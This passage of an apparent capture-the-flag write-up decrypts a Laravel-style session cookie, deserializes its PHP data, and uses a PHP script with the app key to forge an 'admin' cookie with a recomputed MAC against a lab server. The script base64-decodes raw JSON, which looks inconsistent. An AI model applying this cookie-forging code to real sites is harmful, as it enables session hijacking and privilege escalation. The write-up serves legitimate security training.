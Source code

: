 This mysterious cookie contains JSON with some PHP serialized data. Let's deserialize it again to make it more readable.

The data can be deserialized once again with some slight modifications to the previous script:

```python3
decrypted = decrypt("<MYSTERIOUS-COOKIE>")
serialized = json.loads(decrypted)["data"].encode("utf-8")

print(unserialize(serialized))
```

Re-running the script now results in this:

![Deserialized mysterious cookie](./attachments/deserialized_mysterious_cookie.png)

This mysterious cookie seems to contain information about the user and the session.

Let's try to change the username field to "admin", re-serialize the JSON, and send a forged cookie to the website. To do this the mac needs to be re-calculated so let's use a new script for that.

```php
#!/usr/bin/env php
<?php

$key = base64_decode("<APP_KEY>");
$value = '{"data":"a:6:{s:6:\\"_token\\";s:40:\\"NW5QgjqxwZXo0Hm2XxtUlinBz69aOW79bLMkX3Ya\\";s:8:\\"username\\";s:5:\\"admin\\";s:5:\\"order\\";s:2:\\"id\\";s:9:\\"direction\\";s:4:\\"desc\\";s:6:\\"_flash\\";a:2:{s:3:\\"old\\";a:0:{}s:3:\\"new\\";a:0:{}}s:9:\\"_previous\\";a:1:{s:3:\\"url\\";s:26:\\"http:\\/\\/46.101.23.188:31323\\";}}","expires":1627565229}';

$cipher = 'AES-256-CBC';

$iv = random_bytes(openssl_cipher_iv_length($cipher));

$value = openssl_encrypt(base64_decode($value), $cipher, base64_decode($key), 0, $iv);

$iv = base64_encode($iv);
$mac = hash_hmac('sha256', $iv.$value, base64_decode($key));

$json = json_encode(compact('iv', 'value', 'mac'));

$encodedPayload = base64_encode($json);
echo $encodedPayload . PHP_EOL;
```

Running the script returns the forged cookie:

![Forged cookie](./attachments/forged_cookie.png)
